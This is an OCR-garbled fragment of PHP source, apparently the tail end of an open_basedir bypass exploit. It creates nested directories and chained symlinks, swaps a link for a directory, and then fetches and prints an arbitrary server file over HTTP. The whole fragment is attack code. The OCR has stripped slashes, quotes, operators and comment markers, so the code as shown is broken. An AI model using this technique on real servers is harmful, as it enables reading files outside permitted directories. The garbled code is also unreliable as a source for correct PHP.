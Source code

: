     chdir('..');
}
$paths = explode('', $relat_file);
$j = 0;
for ($i = 0; $paths[$i] == '..'; $i++) { 
    mkdir($name);
    chdir($name);
    $j++;
}
for ($i = 0; $i = $j; $i++) { 
    chdir('..');
}
$tmp = array_fill(0, $j + 1, $name);
symlink(implode('', $tmp), 'tmplink');
$tmp = array_fill(0, $j, '..');
symlink('tmplink' . implode('', $tmp) . $file, $exp);
unlink('tmplink');
mkdir('tmplink');
delfile($name);
$exp = dirname($_SERVER['SCRIPT_NAME']) . {$exp};
$exp = http{$_SERVER['SERVER_NAME']}{$exp};
echo n-----------------content---------------nn;
echo file_get_contents($exp);
delfile('tmplink');

function getRelativePath($from, $to) {
   some compatibility fixes for Windows paths
  $from = rtrim($from, '') . '';
  $from = str_replace('', '', $from);
  $to   = str_replace('', '', $to);

  $from   = explode('', $from);
  $to     = explode('', $to);
  $relPath  = $to;

  foreach($from as $depth = $dir) {
     find first non-matching dir
    if($dir === $to[$depth]) {
       ignore this directory
      array_shift($relPath);
    } else {
       get number of remaining dirs to $from
      $remaining = count($from) - $depth;
      if($remaining  1) {
         add traversals up to first matching dir
        $padLength = (count($relPath) + $remaining - 1)  -1;
        $relPath = array_pad($relPath, $padLength, '..');
        break;
      } else {
        $relPath[0] = '.' . $relPath[0];
      }
    }
  }
  return implode('', $relPath);
}
